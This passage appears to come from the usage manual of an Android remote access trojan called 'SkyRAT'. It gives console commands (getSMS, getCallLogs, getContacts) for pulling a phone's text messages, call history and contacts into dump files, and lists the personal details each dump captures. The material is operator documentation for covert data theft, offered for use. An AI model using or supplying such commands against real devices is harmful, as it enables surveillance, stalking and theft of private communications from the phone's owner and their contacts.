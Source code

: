 ```bash
SkyRAT:/> mkdir <directory_path>
```

**Examples:**
```bash
SkyRAT:/> mkdir /sdcard/test_folder
SkyRAT:/> mkdir /data/local/tmp/tools
```

## 📊 Data Extraction

### **getSMS**
Extract SMS messages from device.

```bash
SkyRAT:/> getSMS [inbox|sent]
```

**Examples:**
```bash
SkyRAT:/> getSMS inbox
SkyRAT:/> getSMS sent
SkyRAT:/> getSMS
```

**Output includes:**
- Message content and metadata
- Sender/recipient numbers
- Timestamps
- Message types

**File location:** `dumps/inbox_SMS_TIMESTAMP.txt`

### **getCallLogs**
Extract call history and logs.

```bash
SkyRAT:/> getCallLogs
```

**Output includes:**
- Call types (incoming, outgoing, missed)
- Phone numbers and contact names
- Call duration and timestamps
- Call frequency statistics

**File location:** `dumps/Call_Logs_TIMESTAMP.txt`

### **getContacts**
Extract contact list with details.

```bash
SkyRAT:/> getContacts
```

**Output includes:**
- Contact names and phone numbers
- Email addresses
- Contact photos (if available)
- Contact groups and categories
